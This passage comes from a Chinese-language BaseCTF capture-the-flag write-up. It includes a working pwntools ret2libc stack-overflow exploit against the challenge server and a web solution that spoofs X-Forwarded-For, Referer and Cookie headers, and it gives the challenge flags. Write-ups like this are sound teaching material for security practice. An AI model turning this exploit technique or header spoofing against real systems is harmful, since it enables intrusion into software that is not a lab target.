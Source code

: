 ![](../../../images/05b4c6b2860b489d3350b8e433e74a59.png)

:::info
BaseCTF{5f3242e5-ca0d-4c88-8dd5-ceb33af82656}

:::



### 彻底失去她
队友秒的，裸栈溢出，没找到 /bin/sh，直接打 ret2libc。

```python
from pwn import *
p = remote('challenge.basectf.fun', 39924)
elf = ELF('./pwn')
pay=b'a'*18+p64(0x401196) +p64(0x404018)+p64(0x401070) +p64(0x401214)
p.recvuntil(b'name?\n')
p.send(pay)
addr = u64(p.recvuntil(b'\x7f')[-6:].ljust(8, b'\x00')) - 0x80e50
print(hex(addr))
pay = b'a'*18+p64(0x401196) +p64(addr+0x1d8678)+p64(0x401197)+p64(addr+0x50d70) +p64(0x401214)
p.send(pay)
p.interactive()
```

## Web
### HTTP 是什么呀
![](../../../images/6d4b156620ea3f39f9792af91138688a.png)

听话照做即可，注意 GET 中参数 basectf 的值需要经过 url 编码后再传入。

:::info
?basectf=%77%65%31%63%25%30%30%6d%65

Base= fl@g  

Cookie: c00k13=i can't eat it  

User-Agent: Base  

Referer: Base

X-Forwarded-For: 127.0.0.1

:::

![](../../../images/e488c8ff06a2eb890171a20daf05f362.png)

完成任务后跳转到了另一个页面，抓包看一下有没有什么东西，可以看到 Base64 Encode 后的一个字符串，Decode 后可以得到 flag。

:::info
QmFzZUNURnthZjJiMTA1MS01NjdiLTQ5MjctODBiNi00ZjE4MmU5MDQzODF9Cg==

:::
